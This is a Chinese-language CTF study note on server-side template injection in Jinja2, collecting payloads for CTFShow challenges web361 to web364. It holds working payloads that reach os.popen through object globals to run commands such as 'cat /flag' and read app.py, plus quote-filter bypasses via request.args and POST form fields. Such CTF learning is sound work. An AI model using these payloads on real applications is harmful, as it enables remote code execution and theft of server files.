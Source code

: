 ```yaml
---
title: SSTI
date: 2022-01-01 22:21:18
updated: 2023-01-15 22:21:18
tags: [SSTI]
categories: CTFSHOW
toc: true
---
```

SSTI综合知识


根据习题来记录常见的payload

![](https://img-blog.csdnimg.cn/20210626100053239.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDYzMjc4Nw==,size_16,color_FFFFFF,t_70#pic_center)

### 一、CTFShow

#### web361、362

```python
{{''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('cat /flag').read()}}
```

```python
{{ config.__class__.__init__.__globals__['o'+'s'].popen('ls ../').read() }}
{{ config.__class__.__init__.__globals__['o'+'s'].listdir('/') }}
{{config.__class__.__init__.__globals__['__builtins__'].open('app.py','r').read()}}
或者直接用下列方式访问全局变量
url_for.__globals__
lipsum.__globals__
get_flashed_messages.__globals__
```



#### web363过滤引号

`request.args`传参绕过

假设传入``{{ config.__class__.__init__.__globals__['os'] }}``,因为引号被过滤，所以无法执行，可以把'os'换成request.args.a(这里的a可以理解为自定义的变量，名字可以任意设置)

随后在后面传入a的值，变成`{{ config.__class__.__init__.__globals__[request.args.a] }}&a=os`，与原命令等效

```python
{{config.__class__.__init__.__globals__[request.args.a].popen(request.args.b).read()}}&a=os&b=cat /flag
```



#### web364过滤引号和args传参

尝试使用post传参: form或者value

```
{{config.__class__.__init__.__globals__[request.form.a].popen(request.form.b).read()}}
POST: a=os&b=cat /flag
```
